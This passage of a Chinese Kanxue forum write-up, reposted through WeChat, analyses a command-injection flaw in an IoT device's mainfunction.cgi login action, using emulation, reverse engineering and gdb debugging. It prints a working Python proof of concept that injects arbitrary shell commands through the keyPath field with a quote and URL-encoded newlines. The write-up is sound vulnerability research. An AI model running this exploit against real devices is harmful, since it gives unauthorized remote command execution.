  
  
  
  
  
  
  
会不会刚才data段里的内容就是字符串action及其对应的调用函数？  
  
  
我们搜一个刚才看到的action的具体值：  
  
  
  
  
  
果然就是在刚才那一段部分！也就是说推测是正确的。也就是说我们的poc可以构造action=login。我们可以点击左边栏目查看（这个功能太强了）发现有action=login的，结果发现里面的参数和我们刚才分析的一模一样，只是多了一些别的参数。那些参数其实就在我们分析的函数下方，不过我们就不进一步分析了。  
  
  
  
  
  
综上，我们分析得出：  
  
1.POST请求  
  
2./cgi-bin/mainfunction.cgi 在目的ip后面  
  
3.action=login  
  
4.keyPath不得出现以上字符（` | ; ? 空格 $(不可同时出现 ）。keyPath是命令。  
  
5.keyPath、loginUser、loginPwd都要赋值。  
  
6.keyPath前后都要想办法分割。  
  
  
我们写了个脚本，发现没法做到执行命令。为此我们打算执行动态分析也就是调试。  
  
  
```
import argparse
import requests

def system(host,cmd):
    try:
        print("[*] Start to execute command: " + cmd + " on " + host)
        headers = {
            "HOST":"10.10.10.2",
            "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36",
            "Content-Type": "text/plain; charset=UTF-8",
            "Accept": "*/*",
            }
        url = host + "/cgi-bin/mainfunction.cgi"
        data = f"action=login&keyPath={cmd}&loginUser=N1nEmAn&loginPwd=Hack&formcaptcha=YnVrZHg=&rtick=1722512530770"
        print("[*] Sending:",data)
        res = requests.post(url=url, data=data,headers=headers)
        if res.status_code == 200 and res.text != "":
            print("[+] Command executed successfully")
            print("[+] Result: " + res.text)
            return res.text
        else:
            print('[-] Command execute failed! Nothing...')
            return 1
    except:
        print('[-] Command execute failed!')


if __name__ == "__main__":
    # 获取第一个参数作为目标地址，第二个命令行参数作为命令
    parser = argparse.ArgumentParser()
    parser.add_argument("host", help="target host")
    parser.add_argument("cmd", help="command to execute")
    args = parser.parse_args()
    system(args.host, "ls")
```  
  
###   
### 6. 调试分析构造poc  
  
  
Sevnup会把qemu映射到1234端口，直接用gdb-multiarch连接即可。之前做过armpwn知道寄存器排布如下：  
> arm架构中，调用号3是read，4是write，5是open，0xb是execve。  
> r7用来存储系统调用号。  
> r0,r1,r2分别为三个参数。其中r2的控制较为麻烦，不过问题不大。  
  
  
  
执行命令，其中0xa4c8是system的地址：  
  
  
```
pwndbg> b * 0xa4c8
Breakpoint 1 at 0xa4c8
pwndbg> set architecture arm
The target architecture is set to "arm".
pwndbg> target remote :1234
Remote debugging using :1234
```  
  
  
  
看到第一个参数就是命令，起码执行了system说明我们的路径约束没问题，主要是构造命令出了问题。  
  
  
  
  
  
我们看看我们的ls  
被改成什么了：  
  
  
```
pwndbg> x/s $r0
0xbeaf8410:	"rm -f '/tmp/rsa/private_key_ls' '/tmp/rsa/binary_login' 'ls'"
```  
  
  
  
也就是说它实际上执行了：  
  
  
```
rm -f '/tmp/rsa/private_key_ls' '/tmp/rsa/binary_login' 'ls'
```  
  
  
  
这……显然没有  
达到我们想要的目的，他达成了删除三个东西。如何绕过呢？我们试试用'  
。  
  
  
  
然而这样并不能解决嵌套命令的问题。而后我又尝试了用\n  
发现还是不能，因为\n  
导致直接截断了。最后发现可以用URL编码%0A解决这个问题！所以我们最后的脚本如下：  
  
  
```
import argparse
import requests

def system(host,cmd):
    cmd = "'%0A" + cmd + "%0A"
    try:
        headers = {
            "HOST":"10.10.10.2",
            "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36",
            "Content-Type": "text/plain; charset=UTF-8",
            "Accept": "*/*",
            }
        url = host + "/cgi-bin/mainfunction.cgi"
        data = f"action=login&keyPath={cmd}&loginUser=N1nEmAn&loginPwd=Hack"
        res = requests.post(url=url, data=data,headers=headers)
        if res.status_code == 200 and res.text != "":
            print("[+] Command executed successfully")
            print("[+] Result: n" + res.text)
            return res.text
        else:
            print('[-] Command execute failed! Nothing...')
            return 1
    except:
        print('[-] Command execute failed!')


if __name__ == "__main__":
    # 获取第一个参数作为目标地址，第二个命令行参数作为命令
    parser = argparse.ArgumentParser()
    parser.add_argument("host", help="target host")
    parser.add_argument("cmd", help="command to execute")
    args = parser.parse_args()
    system(args.host, args.cmd)
```  
  
  
  
至此完成分析。效果如下：  
  
  
##   
##   
  
```
五

后记
```  
  
  
  
此次漏洞仿真、分析漏洞、构造poc的整个过程，对我来说是非常启发性的。对于IoT命令注入的漏洞挖掘总结来分为下面几点：  
  
1.找到注入点。  
  
2.分析路径约束。  
  
3.构造特定输入。  
  
4.逆向、bp抓包分析如何发包。  
  
5.调试进一步分析，确定结果。  
  
  
其中仿真也是非常重要的部分。整体来说这次分析学到了不少。比较词穷了，但是心里非常的兴奋，也希望大家看到这里和我的心情是一样的。谢谢你能看到这里.  
  
  
  
  
  
  
  
**看雪ID：N1nE**  
  
https://bbs.kanxue.com/user-home-995344.htm  
  
*本文为看雪论坛精华文章，由 N1nE 原创，转载请注明来自看雪社区  
  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458565463&idx=1&sn=e03e9773326308fa63d18676470a6824&scene=21#wechat_redirect)  
  
  
  
**# 往期推荐**  
  
1、[移植 Youpk 到 Aosp10](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458567868&idx=2&sn=3b7c2f13d8a255d680fd823e5beb396b&chksm=b18df43686fa7d204933a40a99416268cdab0d9e82e6837cafada85ac169197453ecd2add05a&scene=21#wechat_redirect)  
  
  
2、[第十七届CISCN总决赛-AWDP-PWN部分题解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458567439&idx=2&sn=4214f2bea8f2ee1795f39bf24e260884&chksm=b18df38586fa7a9349cedce46438eef955cbae89e2e1935ede674469da0573ef654d925971ef&scene=21#wechat_redirect)  
  
  
3、[aarch64架构的某so模拟执行和加密算法分析](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458567422&idx=1&sn=e7f5eb398bdd106bc491e4e427ad05ed&chksm=b18df27486fa7b62336c0c87a656f3aa7fc90ee3977f55e83ead09e0fbb372c0a7838441bc73&scene=21#wechat_redirect)  
  
  
4、[Android系统启动源码分析](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458567423&idx=1&sn=4cc6b0e2a8e1acf244ee6567e07edae3&chksm=b18df27586fa7b63f5361222ea2c3391c63f55587196d39ae609dc00cf7acf1328266885d243&scene=21#wechat_redirect)  
  
  
5、[Linux 内核重大安全漏洞曝光！indler 漏洞威胁数亿计算机系统](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458567380&idx=1&sn=18d81c63ed1044e4ad9f30e080f0ac7b&chksm=b18df25e86fa7b48050427a1e197dab73e9921ded984be316f4468ea9170b8d90a2b35e50276&scene=21#wechat_redirect)  
  
  
  
  
  
  
  
  
**球分享**  
  
  
  
**球点赞**  
  
  
  
**球在看**  
  
  
  
  
  
点击阅读原文查看更多  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
